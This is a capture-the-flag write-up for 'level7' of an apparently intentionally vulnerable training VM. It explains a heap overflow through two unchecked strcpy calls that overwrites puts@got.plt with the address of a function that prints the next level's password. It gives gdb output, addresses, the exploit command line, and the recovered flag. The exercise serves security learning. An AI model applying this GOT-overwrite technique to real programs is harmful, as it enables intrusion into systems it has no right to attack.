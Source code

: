 # level7

## Header

```bash
ssh level7@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that the program opens 
`/home/user/level8/.pass` and reads it to the global buffer `c` of size 80. <br>
The main problem is `puts` call doesn't print buffer `c`, but `~~` string literal instead.

Our savior is `m` function that calls `printf` that prints time and `c` buffer.

So, we need to replace `puts` address in `GOT` table with `m` address.

To do that, let's pay attention to 2 facts:
- There are 4 consecutive `malloc(8)` calls
- There are 2 `strcpy` unprotected calls 

1st and 3rd `malloc` calls are just arrays of two integers, `arr1` and `arr2`.
The result of 2nd and 4th calls are stored in `arr1[1]` and `arr2[1]`, respectively.

This scheme represents the memory after `malloc` called. <br>
<img src="./Resources/scheme07.png" width=600/>

`strcpy` will copy from the address stored in arr[1] (first red block on the scheme)

Our goal is to make the 2nd `strcpy` to be called with address of puts in GOT as the 1st parameter and the address of `m` function as the 2nd parameter.

```
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.

(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

Results:
```
0x8049928 - puts@got.plt
0x80484f4 - m function
```

Let's exploit!
```bash
# (20 bytes padding + addr of `puts@got.plt` + addr of `m`):
./level7 $'XXXXXXXXXXXXXXXXXXXX\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668220618
```

## References
